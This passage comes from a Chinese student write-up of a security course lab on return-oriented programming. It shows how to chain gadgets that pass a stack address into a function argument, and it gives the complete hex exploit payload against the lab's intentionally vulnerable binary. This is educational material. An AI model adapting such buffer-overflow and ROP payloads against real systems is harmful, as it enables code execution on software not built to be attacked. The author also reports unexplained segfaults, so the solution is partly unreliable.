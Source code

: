 由上题我们可以实现 `movq %rax,%rdi` ，是不是直接将传入的字符串存到栈顶，再将栈顶地址存入 `%rdi` 就做完了？这里要注意，如果直接将字符串存到栈顶， `48 89 e0 90 c3` 在返回时会跳转到栈顶，字符串就成要运行的指令了，就会发生错误。
这里考虑将栈顶地址加值传入，使得要传入的字符串与栈顶拉开距离，不被执行。（我开始试图用官方文档给的参考指令给 `%eax` 做加法，但很复杂还不一定能成，我把它附在了最后面[1]，有闲情再看吧T_T）这里的加法用到了一个文档里没有的指令：

```
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```

`04 37` 是 `add $0x37,%al` ，可以表示将传入的字符串存在距离栈顶 `0x37` （55）字节处。
由上，可以构造这样一个攻击链：
先填充 40 字节破坏栈，紧接着是  `movq %rsp,%rax`，将下一个栈顶位置存入 `%rax` ，代码位置是 `0x401aad`；接着 `add $0x37,%al` ，给 `%rax` 加值 `0x37` ，这段代码位置是 `0x4019d8` ；然后将 `%rax` 值传入函数的参数 `%rdi` ，代码位置由上题是 `0x4019a2` ，然后跳转到 `touch3` 函数，地址是 `0x4018fa` ；最后存入字符串，并在其前面填充字节使其地址与保存的栈顶地址相差 55 个字节，共要填充 `(55-3×8)=31` 个字节，所以答案可以是：

```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ad 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
31 31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31 31
31
35 39 62 39 39 37 66 61 00
```

## 小结

这次 lab 较简单，涉及了栈随机化，ROP 攻击等内容，通过这个 lab ，我对汇编、栈都有了更深的了解，这篇文章给了所有题目的解答，但是，这里有一个问题：使用这些解答存在出现 `Type string:Ouch!: You caused a segmentation fault!` 的可能，原因未知，此篇解答与参考资料里的解答也能对应上，所以我想出现这个问题可能是机器的原因吧？

### [1]附：一种复杂可能错误的加法

加法可以用以下方法得到：

```
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```

给 `%rdi` 赋值可以从 `%eax` 传入，`%rsi` 赋值可以按以下方法：

```
  00000000004019db <getval_481>:
  4019db:       b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:       c3                      retq
```
